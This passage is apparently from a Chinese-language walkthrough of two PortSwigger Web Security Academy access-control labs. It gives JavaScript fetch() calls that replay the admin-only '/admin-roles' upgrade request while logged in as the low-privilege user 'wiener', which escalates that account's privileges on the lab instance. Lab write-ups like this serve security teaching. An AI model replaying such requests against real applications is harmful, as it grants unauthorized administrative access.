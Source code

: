 | Dimension | Description                                                                                                   |
| --------- | ------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#access-control-vulnerabilities-in-multi-step-processes    |
| Lab       | https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step |

先用 admin 帳密登入，確定最後是戳

```js
fetch(`${location.origin}/admin-roles`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "action=upgrade&confirmed=true&username=carlos",
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

登入 wiener 帳密後，嘗試

```js
fetch(`${location.origin}/admin-roles`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "action=upgrade&confirmed=true&username=wiener",
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

## Lab: Referer-based access control

| Dimension | Description                                                                          |
| --------- | ------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/access-control#referer-based-access-control     |
| Lab       | https://portswigger.net/web-security/access-control/lab-referer-based-access-control |

先用 admin 帳密登入，確定最後是戳

```js
fetch(
  "https://0a2a00cf03f4400d83de2d1f002400fb.web-security-academy.net/admin-roles?username=carlos&action=upgrade",
);
```

登入 wiener 帳密後，進到 https://0a2a00cf03f4400d83de2d1f002400fb.web-security-academy.net/admin ，並且嘗試

```js
fetch(
  "https://0a2a00cf03f4400d83de2d1f002400fb.web-security-academy.net/admin-roles?username=wiener&action=upgrade",
);
```

## 小結

這系列的 Labs 好快就解完了，沒有 Expert 等級的題目，整體來說都偏簡單

## 參考資料

- https://portswigger.net/web-security/access-control
